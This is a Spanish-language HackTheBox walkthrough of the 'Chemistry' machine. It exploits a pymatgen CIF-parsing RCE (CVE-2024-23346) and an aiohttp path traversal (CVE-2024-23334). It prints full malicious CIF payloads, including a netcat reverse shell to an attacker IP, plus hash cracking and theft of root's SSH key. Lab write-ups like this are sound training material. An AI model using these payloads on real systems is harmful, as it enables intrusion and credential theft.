---

# Descripcion

Chemistry es una máquina Linux de dificultad Easy en HackTheBox que pone a prueba nuestros conocimientos de enumeración web, explotación de vulnerabilidades y escalada de privilegios. Durante su resolución, descubriremos una vulnerabilidad de ejecución remota de código (RCE) en la biblioteca Pymatgen mediante archivos CIF, que nos permitirá obtener acceso inicial. Posteriormente, extraeremos credenciales de una base de datos SQLite y aprovecharemos una vulnerabilidad de Path Traversal en aiohttp para acceder a una clave privada SSH y conseguir privilegios de root.

---


# Enumeración

## Nmap

> Comenzamos realizando un escaneo de todos los puertos TCP para identificar los servicios expuestos en la máquina.

```bash
nmap -p- --open --min-rate 5000 -Pn -n -sS -v 10.129.231.170
```



> Una vez identificados los puertos abiertos, realizamos un segundo escaneo para obtener información más detallada sobre los servicios y sus versiones.

```bash
nmap -p22,5000 -sC -sV 10.129.231.170
```



> Observamos que en el puerto 5000 tenemos una aplicación web funcionando en Python.

## Web

> Utilizamos `WhatWeb` para identificar las tecnologías empleadas por la aplicación web.

```bash
whatweb http://chemistry.htb:5000
```




> Accedemos a la aplicación web para comenzar a examinar su funcionamiento.



> Antes de realizar cualquier acción en la página, vamos a enumerar sus directorios con `Gobuster` para comprobar si encontramos algún recurso interesante.

## Gobuster

```bash
gobuster dir -u http://chemistry.htb:5000 -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 50
```



> No encontramos nada interesante, así que vamos a registrarnos e iniciar sesión en la aplicación. Como podemos observar en la página principal, se trata de un analizador de archivos `.cif` (*Crystallographic Information File*). CIF es un formato de archivo de texto estándar utilizado para representar, almacenar e intercambiar información cristalográfica.

# Shell como app

## CVE-2024-23346



> Una vez dentro, nos ofrecen un modelo de ejemplo que podemos utilizar para analizar un archivo CIF. Su contenido es el siguiente:

```c
data_Example
_cell_length_a    90.00000
_cell_length_b    90.00000
_cell_length_c    90.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
```

> Si buscamos información sobre CIF y cómo se procesan estos archivos en Python, encontramos la vulnerabilidad `CVE-2024-23346`, que afecta a la biblioteca `pymatgen` y permite ejecutar código arbitrario (RCE) mediante un archivo CIF manipulado.
>
> Vamos a comprobar si la aplicación es vulnerable introduciendo el siguiente payload. Para ello, primero nos pondremos a la escucha de posibles peticiones ICMP.

## Comprobación de RCE

> Nos ponemos en escucha mediante `tcpdump` para detectar si la máquina ejecuta el comando que introduciremos en el archivo.

```bash
sudo tcpdump -i tun0 icmp
```

> A continuación, creamos un archivo `.cif` con el siguiente contenido:

```c
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("ping -c 1 10.10.14.154");0,0,0'

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

> Subimos el archivo a la aplicación y pulsamos sobre `View` para que se procese.



> Comprobamos que hemos conseguido ejecutar código remotamente (RCE). Ahora vamos a aprovechar esta vulnerabilidad para obtener una reverse shell.

## Reverse Shell

> Primero, nos ponemos en escucha con `netcat` en nuestra máquina:

```bash
nc -nvlp 7777
```

> A continuación, creamos y subimos otro archivo `.cif`, esta vez modificando el comando para establecer una conexión inversa hacia nuestra máquina y obtener una shell.

```c
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("busybox nc 10.10.14.154 7777 -e /bin/bash");0,0,0'

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```



# Shell como rosa

## Enumeración

> Una vez obtenida la shell, vamos a comenzar enumerando los usuarios existentes en la máquina.

```bash
ls -la /home
cat /etc/passwd | grep "sh"
```



> Bien, si examinamos los archivos del directorio `home` del usuario `app`, observamos que corresponden a los archivos de la aplicación web.


> Nos interesa especialmente el directorio `instance`, ya que dentro se encuentra la base de datos de la aplicación. Si la examinamos, encontramos una tabla llamada `user` que puede contener información interesante.

```bash
sqlite3 database.db
.tables
select * from user;
```



> La consulta nos devuelve los usuarios registrados y sus contraseñas almacenadas mediante hashes MD5. De momento, nos interesan especialmente las credenciales de `rosa` y `admin`, así que vamos a intentar crackear ambos hashes utilizando `John the Ripper`.

## Cracking de hashes

> Creamos un archivo llamado `hash.txt` con los hashes obtenidos:

```text
admin:2861debaf8d99436a10ed6f75a252abf
rosa:63ed86ee9f624c7b14f1d4f43dc251a5
```

> Ejecutamos `John the Ripper` indicando el formato MD5 y utilizando el diccionario `rockyou.txt`:

```bash
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```



> Conseguimos recuperar las siguientes credenciales:

```text
user: rosa
pass: unicorniosrosados
```

## SSH

> Vamos a probar estas credenciales para acceder a la máquina mediante SSH.

```bash
ssh rosa@10.129.231.170
```



# Shell como root

## Enumeracion

> Una vez dentro como `rosa`, comenzamos enumerando diferentes vías habituales de escalada de privilegios, como permisos en `sudoers`, binarios con permisos `SUID` y `Capabilities`. No encontramos nada fuera de lo habitual.
>
> A continuación, vamos a listar los puertos que están en escucha para comprobar si existe algún servicio interno al que podamos acceder.

```bash
netstat -tunl
```



> Observamos un puerto que únicamente está abierto en la interfaz local. Vamos a comprobar qué servicio está ejecutándose realizando una petición con `curl`.

```bash
curl 127.0.0.1:8080
```



> Parece tratarse de un sitio web de monitorización. Vamos a comprobar qué proceso lo está ejecutando y, especialmente, si pertenece al usuario `root`.

> Utilizamos `ps` para listar los procesos en ejecución:

```bash
ps faux
```



> Bien, encontramos una posible vía de escalada de privilegios. El servicio de monitorización está ejecutándose con privilegios de `root`, por lo que vamos a intentar acceder a él desde nuestra máquina mediante un *SSH Port Forwarding*.

> Establecemos un túnel SSH que redirige el puerto remoto `8080` al puerto local `9000` de nuestra máquina:

```bash
ssh -L 9000:127.0.0.1:8080 rosa@10.129.231.170
```

## CVE-2024-23334

> Una vez establecido el túnel, accedemos desde nuestro navegador a `http://127.0.0.1:9000`.



> Nos encontramos ante un servicio web de monitorización en el que, aparentemente, no podemos hacer mucho más que consultar los servicios.
>
> En este punto no tenía claro cómo continuar, así que decidí apoyarme en las pistas de HTB. Al revisar las cabeceras HTTP que devuelve el servidor, podemos identificar la tecnología y versión que está utilizando. En este caso, encontramos `aiohttp 3.9.1`.



> Investigando esta versión de `aiohttp`, encontramos la vulnerabilidad `CVE-2024-23334`, que permite realizar un LFI (*Local File Inclusion*) mediante un ataque de *Path Traversal*.
>
> Para explotarla, necesitamos localizar algún directorio de la aplicación que permita acceder a sus recursos. Revisando el código fuente de la página, encontramos una referencia al directorio `assets`.



> Una vez identificado el directorio, podemos intentar explotar la vulnerabilidad mediante un ataque de `Path Traversal`. En mi caso, voy a realizarlo utilizando Burp Suite para modificar las peticiones HTTP.



> Vamos a intentar localizar la clave privada SSH `id_rsa` del usuario `root`, ya que nos permitiría autenticarnos directamente con sus privilegios.



> ¡Lo conseguimos! Hemos encontrado el archivo `id_rsa`. Copiamos su contenido a un archivo en nuestra máquina para utilizarlo en la conexión SSH.
>
> Antes de conectarnos, debemos ajustar sus permisos a `600`, ya que SSH no permite utilizar claves privadas con permisos demasiado permisivos.

```bash
chmod 600 id_rsa
ssh root@10.129.231.170 -i id_rsa
```



> ¡Máquina comprometida! Hemos conseguido acceso como `root` y completado Chemistry.
